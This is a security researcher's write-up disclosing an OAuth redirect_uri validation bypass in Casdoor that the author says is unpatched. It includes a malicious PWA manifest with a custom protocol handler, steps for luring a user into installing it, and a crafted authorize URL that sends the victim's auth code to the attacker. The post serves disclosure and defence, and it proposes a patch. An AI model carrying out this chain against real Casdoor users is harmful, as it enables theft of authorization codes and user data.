


+++
title = 'Why Protocol Matters: Evil PWA Attack on Casdoor'
date = 2025-02-05T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
In this article, I would like to discuss a vulnerability I discovered in [Casdoor](https://github.com/casdoor/casdoor), starting with a brief overview:

> Casdoor - An open-source UI-first Identity and Access Management (IAM) / Single-Sign-On (SSO) platform with a web UI supporting OAuth 2.0, OIDC, SAML, CAS, LDAP, SCIM, WebAuthn, TOTP, MFA, Face ID, RADIUS, Google Workspace, Active Directory, and Kerberos.

# Vulnerability
I want to first explain how the vulnerability was found, as it is quite amusing. At the end of that year, a number of vulnerabilities were discovered in Casdoor by specialists from the GitHub Security Lab - you can read about it [here](https://securitylab.github.com/advisories/GHSL-2024-035_GHSL-2024-036_casdoor/). One of the vulnerabilities was found in the following lines:
```go
	if strings.HasPrefix(origin, "http://localhost") || strings.HasPrefix(origin, "https://localhost") || strings.HasPrefix(origin, "http://127.0.0.1") || strings.HasPrefix(origin, "http://casdoor-app") || strings.Contains(origin, ".chromiumapp.org") {
		setCorsHeaders(ctx, origin)
		return
	}
```
As you can see, it could be easily exploited using URLs like `https://localhost.slonser.info`.

 I became curious about how this was fixed, as well as how the `redirect_uri` validation function works. I came across the following function:
```go
func IsValidOrigin(origin string) (bool, error) {
	urlObj, err := url.Parse(origin)
	if err != nil {
		return false, err
	}
	if urlObj == nil {
		return false, nil
	}

	originHostOnly := ""
	if urlObj.Host != "" {
		originHostOnly = fmt.Sprintf("%s://%s", urlObj.Scheme, urlObj.Hostname())
	}

	res := originHostOnly == "http://localhost" || originHostOnly == "https://localhost" || originHostOnly == "http://127.0.0.1" || originHostOnly == "http://casdoor-authenticator" || strings.HasSuffix(originHostOnly, ".chromiumapp.org")
	return res, nil
}
```
As you can see:
Interesting points:
1. `IsValidOrigin` is called before checking the allowList for `redirect_uri`, meaning that bypassing it could allow the theft of the user's auth code.
2. Now it is indeed impossible to use exploits from the previous version, as the check is performed using `==`.
3. At the end, `strings.Contains(origin, ".chromiumapp.org")` was changed to `strings.HasSuffix(originHostOnly, ".chromiumapp.org")`.

And therein lies the problem: `strings.HasSuffix` checks the ending, which does not allow us to use arbitrary origins. However, we can insert a URL with an arbitrary protocol:
```
anyprotocol://slonser.chromiumapp.org
```

# Known Exploitation Methods
A well-known exploitation method is using custom schemes on mobile devices. More details on how to register them on [Android](https://developer.android.com/training/app-links/deep-linking) and on [iOS](https://evanconnelly.github.io/post/ios-oauth/). The basic idea is that we can trick the user into installing a malicious application and redirecting them to a URL like:
```
myapp://slonser.chromiumapp.org
```
But I didn't like this idea for several reasons:
1. This attack is not universal.
2. It is quite difficult to trick the user into installing a malicious application, as it needs to be uploaded to the Play Store, go through moderation, etc.
3. I want to be able to attack users on desktop.

# Evil PWA Attack
However, I quickly came up with a more universal attack vector using [PWA](https://web.dev/explore/progressive-web-apps). PWAs do not require native installation on the device and also work on desktop. Most importantly, PWAs also support [protocol handlers](https://developer.chrome.com/docs/web-platform/best-practices/url-protocol-handler):
```json
    "protocol_handlers": [
        {
            "protocol": "web+slonser",
            "url": "/call?q=%s"
        },
    ]
```
By inserting such a protocol in `protocol_handlers`, when opening a URL like `web+slonser://slonser.chromiumapp.org`, it will open `https://pwahost/call?q=web+slonser://slonser.chromiumapp.org`.

Thus, to exploit this, you need to upload a `manifest.json` like this:
```
{
    "short_name": "Slonser",
    "name": "Slonser Long",
    "description": "description",
    "icons": [
      {
        "src": "/images.png",
        "sizes": "225x225",
        "type": "image/png"
      }
    ],
    "screenshots": [
  {
    "src": "slon400.jpg",
    "sizes": "400x400",
    "type": "image/jpg",
    "form_factor": "wide",
    "label": "Wonder Widgets"
  },
  {
    "src": "slon400.jpg",
    "sizes": "400x400",
    "type": "image/jpg",
    "label": "Wonder Widgets"
  }
],
    "start_url": "/",
    "display": "standalone",
    "theme_color": "#000000",
    "background_color": "#ffffff",
    "protocol_handlers": [
        {
            "protocol": "web+slonser",
            "url": "/zzz?q=%s"
        }
    ]
}
```
After that, you need to:
1. Direct the user to a site that includes `<link rel="manifest" href="manifest.json" />`
   
2. The user installs our PWA.
3. After that, you can open from your page:
   ```
   https://casdoor_instance/login/oauth/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=web%2bslonser%3A%2F%2Fz.chromiumapp.org&scope=read&state=state_data
   ```
4. After which the user will be successfully redirected to our site.
   

You can see the full implementation [here](https://pocs.neplox.security/casdoor-6fe54bcf-d62f-4688-8158-18465b3109f9/).

# Summary
This attack will work on both Android and Windows/MacOS/Linux, effectively allowing the theft of user data.

The vulnerability has not been fixed; I tried to contact the Casdoor team via email, but was ignored. As you can see, this is a systematic problem, as both the GitHub security team and many other security researchers have been ignored.

I decided to make a [public](https://github.com/casdoor/casdoor/pull/3554) pull request with a fix:
```go
(strings.HasSuffix(originHostOnly, ".chromiumapp.org") && strings.HasPrefix(originHostOnly, "https://"))
```
You can apply the patch yourself, and I also recommend abandoning this solution, as it seems that this project is completely indifferent to security.